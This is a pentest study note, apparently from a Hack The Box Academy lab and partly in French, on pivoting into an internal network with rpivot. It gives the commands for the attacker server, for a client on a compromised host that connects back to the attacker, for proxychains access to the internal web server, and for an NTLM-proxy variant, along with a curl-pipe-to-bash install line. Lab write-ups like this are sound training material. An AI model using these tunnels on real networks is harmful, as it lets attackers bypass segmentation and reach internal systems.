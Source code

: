 # Web Server Pivoting with Rpivot

***

Rpivot est un outil Python de proxy SOCKS inversé pour le tunneling SOCKS. Il permet de lier une machine dans un réseau interne à un serveur externe et d’exposer le port local du client côté serveur. Par exemple, si nous avons un serveur web sur notre réseau interne (172.16.5.135), Rpivot permet d’y accéder via ce proxy.

![](https://academy.hackthebox.com/storage/modules/158/77.png)

<mark style="color:green;">**Cloning rpivot**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ git clone https://github.com/klsecservices/rpivot.git
```

<mark style="color:green;">**Installing Python2.7**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ sudo apt-get install python2.7
```

<mark style="color:green;">**Alternative Installation of Python2.7**</mark>

{% code fullWidth="true" %}
```shell-session
curl https://pyenv.run | bash
echo 'export PYENV_ROOT="$HOME/.pyenv"' >> ~/.bashrc
echo 'command -v pyenv >/dev/null || export PATH="$PYENV_ROOT/bin:$PATH"' >> ~/.bashrc
echo 'eval "$(pyenv init -)"' >> ~/.bashrc
source ~/.bashrc
pyenv install 2.7
pyenv shell 2.7
```
{% endcode %}

<mark style="color:green;">**Running server.py from the Attack Host**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```
{% endcode %}

<mark style="color:green;">**Transfering rpivot to the Target**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```

<mark style="color:green;">**Running client.py from Pivot Target**</mark>

```shell-session
ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip 10.10.15.124 --server-port 9999

Backconnecting to server 10.10.14.18 port 9999
```

<mark style="color:green;">**Confirming Connection is Established**</mark>

```shell-session
New connection from host 10.129.202.64, source port 35226
```

We will configure proxychains to pivot over our local server on 127.0.0.1:9050 on our attack host, which was initially started by the Python server.

Finally, we should be able to access the webserver on our server-side, which is hosted on the internal network of 172.16.5.0/23 at 172.16.5.135:80 using proxychains and Firefox.

<mark style="color:green;">**Browsing to the Target Webserver using Proxychains**</mark>

```shell-session
proxychains firefox-esr 172.16.5.135:80
```

![](https://academy.hackthebox.com/storage/modules/158/rpivot_proxychain.png)

{% hint style="info" %}
(Ton PC) Firefox → ProxyChains → 127.0.0.1:9050\
↓\
(Ton PC) Rpivot server.py (écoute sur 9999)\
↓\
(Tunnel établi par client.py)\
↓\
(Pivot) Rpivot client.py → Forward vers 172.16.5.135:80\
↓\
(Webserver interne) Réponse → Pivot → Rpivot → ProxyChains → Firefox
{% endhint %}

Similar to the pivot proxy above, there could be scenarios when we cannot directly pivot to an external server (attack host) on the cloud. Some organizations have [HTTP-proxy with NTLM authentication](https://docs.microsoft.com/en-us/openspecs/office_protocols/ms-grvhenc/b9e676e7-e787-4020-9840-7cfe7c76044a) configured with the Domain Controller. In such cases, we can provide an additional NTLM authentication option to rpivot to authenticate via the NTLM proxy by providing a username and password. In these cases, we could use rpivot's client.py in the following way:

<mark style="color:green;">**Connecting to a Web Server using HTTP-Proxy & NTLM Auth**</mark>

{% code overflow="wrap" fullWidth="true" %}
```shell-session
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```
{% endcode %}

